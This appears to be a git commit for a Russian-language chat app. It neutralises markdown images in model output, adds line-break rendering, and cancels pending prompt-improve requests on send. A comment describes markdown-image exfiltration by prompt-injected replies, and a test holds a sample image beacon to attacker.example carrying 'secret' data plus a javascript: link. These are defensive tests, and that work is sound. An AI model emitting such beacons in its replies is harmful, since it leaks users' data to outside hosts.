

fix(audit): 4 находки состязательной проверки — картинки в разметке нейтрализованы (канал утечки через img-маячок), remark-breaks для старых чатов, отправка глушит незавершённое улучшение промпта, og.png перерисован под Lexab

diff --git a/src/components/chat/MarkdownMessage.tsx b/src/components/chat/MarkdownMessage.tsx
@@ -1,6 +1,7 @@
 import { memo } from 'react';
 import ReactMarkdown from 'react-markdown';
 import remarkGfm from 'remark-gfm';
+import remarkBreaks from 'remark-breaks';
 import styles from './chat.module.css';
 
 /**
@@ -10,15 +11,21 @@ import styles from './chat.module.css';
  *
  * Safety: no rehype-raw — raw HTML in the model's output is never turned into
  * DOM, and react-markdown's default URL transform drops javascript: links.
+ * Markdown IMAGES are neutralized too (alt text only): a live <img> would GET
+ * an arbitrary host — an IP leak and the classic markdown-image exfiltration
+ * channel for prompt-injected replies.
+ * remark-breaks: a single \n renders as a line break (ChatGPT behaviour) —
+ * also keeps pre-markdown-era saved replies from collapsing into run-on text.
  * memo: while one message streams, the finished siblings never re-parse.
  */
 export const MarkdownMessage = memo(function MarkdownMessage({ text }: { text: string }) {
   return (
     <div className={styles.markdown} dir="auto">
       <ReactMarkdown
-        remarkPlugins={[remarkGfm]}
+        remarkPlugins={[remarkGfm, remarkBreaks]}
         components={{
           a: ({ node: _node, ...props }) => <a {...props} target="_blank" rel="noopener noreferrer" />,
+          img: (p) => (p.alt ? <span>{p.alt}</span> : null),
         }}
       >
         {text}

diff --git a/src/components/chat/MarkdownMessage.test.tsx b/src/components/chat/MarkdownMessage.test.tsx
@@ -31,6 +31,18 @@ describe('MarkdownMessage', () => {
     expect(html).toContain('&lt;img');
   });
 
+  it('never renders markdown images — no <img>, no network beacon (exfiltration channel)', () => {
+    const html = render('до ![схема сделки](https://attacker.example/p.gif?d=secret) после');
+    expect(html).not.toContain('<img');
+    expect(html).not.toContain('attacker.example');
+    expect(html).toContain('схема сделки'); // alt survives as plain text
+  });
+
+  it('renders a single newline as a line break (legacy replies must not flatten)', () => {
+    const html = render('Срок: 30 дней\nНеустойка: 0.5%');
+    expect(html).toContain('<br');
+  });
+
   it('sanitizes javascript: links and hardens external links', () => {
     const html = render('[кликни](javascript:alert(1)) и [сайт](https://example.com)');
     expect(html).not.toContain('javascript:');

diff --git a/src/components/chat/ChatInput.tsx b/src/components/chat/ChatInput.tsx
@@ -151,7 +151,15 @@ export function ChatInput({ compact = false, onAnalyze, onSend, onFile, onCloudI
     if (textareaRef.current) textareaRef.current.style.height = 'auto';
   };
 
+  /** Consuming the draft (send / slash-pick) must kill an in-flight improve —
+   *  otherwise its late result would REFILL the just-cleared composer. */
+  const cancelImprove = () => {
+    improveAbortRef.current?.abort();
+    improveAbortRef.current = null;
+  };
+
   const pick = (command: Command) => {
+    cancelImprove();
     if (command.cmd === '/analyze') {
       clearValue();
       setSlashOpen(false);
@@ -164,6 +172,7 @@ export function ChatInput({ compact = false, onAnalyze, onSend, onFile, onCloudI
   };
 
   const submit = () => {
+    cancelImprove();
     const trimmed = value.trim();
     if (!trimmed) return;
     if (trimmed.startsWith('/analyze')) {
